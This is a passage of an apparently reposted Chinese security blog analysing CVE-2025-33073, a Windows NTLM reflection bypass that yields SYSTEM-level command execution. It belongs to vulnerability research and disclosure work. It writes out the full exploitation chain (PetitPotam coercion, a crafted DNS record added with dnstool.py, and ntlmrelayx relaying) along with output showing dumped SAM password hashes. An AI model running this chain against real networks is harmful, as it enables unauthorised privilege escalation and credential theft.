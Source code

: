 #  NTLM反射已死，NTLM反射万岁！——CVE-2025-33073深度分析  
 Ots安全   2025-06-14 06:11  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
> 近二十年来，Windows 一直饱受 NTLM 反射漏洞的困扰。本文将介绍CVE-2025-33073，这是一个逻辑漏洞，它可以绕过 NTLM 反射缓解措施，并允许经过身份验证的远程攻击者在任何未强制执行 SMB 签名的计算机上以 SYSTEM 权限执行任意命令。本篇博文将详细介绍该漏洞的发现、根本原因的完整分析以及微软的补丁程序。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadyqXG7lm1lAa9cAe0DiaLbRLl1icCGpo957lHeiaGNLQaNmH1Y8Jyic6ibbtBI11VtgO1rOUBgrjZNkfw/640?wx_fmt=png&from=appmsg "")  
  
  
介绍  
  
NTLM 反射是 NTLM 身份验证中继的一种特殊情况，其中原始身份验证被中继回发起身份验证的计算机。此类漏洞最初通过 MS08-68 公开发布，微软阻止了 SMB 到 SMB 的 NTLM 反射。多年来，其他利用向量也被发现并修补，例如 HTTP 到 SMB 的反射（已在 MS09-13 中修补）或 DCOM 到 DCOM 的反射（已在 MS15-076 中修补）。  
  
如今，人们普遍认为 NTLM 反射攻击向量是固定的，但有时一些研究表明，绕过缓解措施只是深入研究缓解措施的实际作用的问题。  
  
最近，一条表明 Kerberos 反射不受限制的推文引起了我们的兴趣，并促使我们更深入地研究身份验证反射。  
  
漏洞发现  
  
作为测试的基准，让我们看看尝试将 SMB 身份验证中继回同一台计算机时会发生什么。我们的测试机器 (SRV1) 是最新的 Windows Server 2022，已加入域，且未强制执行 SMB 签名：  
  
```
$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL[-] Sending EfsRpcEncryptFileSrv![+] Got expected ERROR_BAD_NETPATH exception!![+] Attack worked!# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support[*] Servers started, waiting for connections[*] SMBD-Thread-5 (process_request_thread): Received connection from192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL[-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED
```  
  
  
PetitPotam 强制 SYSTEM 服务 ( lsass.exe) 向受控机器进行身份验证，因此会收到机器账户身份验证。由于身份验证源自同一台机器，因此中继失败。  
  
为了寻找异常行为，我们调整了不同的参数，例如侦听器主机或客户端 IP 地址。我们注册了  
srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA   
DNS 记录，并将其指向我们的 IP 地址。这种格式最初由 James Forshaw 记录，并在我们之前的一篇博文中进行了探讨，它可以用来强制机器通过 Kerberos 身份验证到受控的 IP 地址。当我们使用之前的 DNS 记录强制 SRV1 作为侦听器时，我们偶然发现了一个奇怪的行为：中继居然成功了！      
  
```
$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3[-] Adding new record[+] LDAP operation completed successfully$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL[-] Sending EfsRpcEncryptFileSrv![+] Got expected ERROR_BAD_NETPATH exception!![+] Attack worked!# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support[*] Servers started, waiting for connections[*] SMBD-Thread-5 (process_request_thread): Received connection from192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL[*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED[*] Service RemoteRegistry isin stopped state[*] Starting service RemoteRegistry[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::[*] Done dumping SAM hashes for host: 192.168.56.14
```  
  